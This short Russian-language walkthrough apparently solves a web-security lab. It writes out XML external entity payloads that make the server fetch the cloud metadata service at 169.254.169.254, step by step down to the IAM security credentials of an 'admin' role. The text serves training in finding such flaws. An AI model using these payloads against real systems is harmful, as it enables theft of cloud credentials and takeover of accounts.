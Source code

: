 1) Перехватываем запрос от нажатия на кнопку check stock
2) Отправляем запрос в repeater. Отменяем перехват
3) После начала xml добавляем <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
4) В "ProductId" добавляем &xxe
5) Запуск кода
6) Изменяем адрес. <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/"> ]>
7) Запуск кода
8) Изменяем по инструкциям адрес еще несколько раз
9) Финальный адрес: <!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
10) Лаба выполнена
